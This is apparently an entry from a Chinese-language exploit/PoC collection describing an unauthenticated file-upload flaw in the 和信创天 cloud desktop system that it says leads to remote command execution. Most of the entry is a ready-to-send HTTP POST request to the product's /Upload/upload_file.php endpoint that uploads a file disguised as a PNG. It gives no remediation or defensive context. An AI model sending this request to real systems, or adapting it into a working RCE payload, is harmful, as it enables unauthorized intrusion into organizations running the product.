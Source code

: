 # 和信创天云桌面系统 远程命令执行 RCE漏洞

## 漏洞描述

和信创天云桌面系统存在默认配置导致文件上传并可以远程命令执行

## 漏洞影响

> [!NOTE]
>
> 和信创天云桌面系统

## 漏洞复现

请求包如下

```
POST /Upload/upload_file.php?l=1 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
Referer: x.x.x.x
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,fil;q=0.8
Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv
Content-Length: 164

------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; name="file"; filename="1.png"
Content-Type: image/avif

1
------WebKitFormBoundaryfcKRltGv--
```
